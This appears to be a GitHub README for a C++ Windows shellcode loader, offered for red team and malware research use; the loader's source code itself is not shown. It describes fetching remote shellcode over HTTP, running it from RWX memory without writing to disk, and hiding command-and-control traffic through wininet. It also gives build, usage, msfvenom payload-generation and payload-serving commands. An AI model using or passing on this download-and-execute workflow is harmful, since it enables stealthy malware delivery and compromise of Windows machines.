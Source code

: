 A minimal C++ shellcode loader for Windows written for red team, malware research, and educational purposes.

## 🚀 Description

This tool demonstrates:
- Downloading remote shellcode via HTTP
- Allocating RWX memory with `VirtualAlloc`
- Executing shellcode directly from memory (fileless execution)
- Using the `wininet` API for stealthy C2 traffic

> 🔐 Educational use only. Unauthorized use of this code is illegal.

## 📂 Filename

**loader.cpp** – Console-based shellcode loader (C++)

## 📌 Technique

**In-memory shellcode execution over HTTP**

- **Download stage**: Retrieves shellcode from a remote URL
- **Memory stage**: Allocates executable memory (`PAGE_EXECUTE_READWRITE`)
- **Execution**: Transfers control to shellcode via a function pointer

## 🧱 Requirements

- `x86_64-w64-mingw32-g++` (MinGW-w64)
- Windows target

## ⚙️ Build

```bash
x86_64-w64-mingw32-g++ loader.cpp -o loader.exe -static -lwininet -s -Wl,-subsystem,console
```

## 🧪 Usage

```bash
loader.exe http://<ip_address>/shellcode.bin
```

## 🛠️ Example Shellcode Generation

Using msfvenom:
```bash
msfvenom -p windows/x64/exec CMD=calc.exe -f raw -o enc.bin
```

Serve with python:
```bash
python3 -m http.server 80
```

Then run
```bash
loader.exe http://127.0.0.1:30001/enc.bin
```
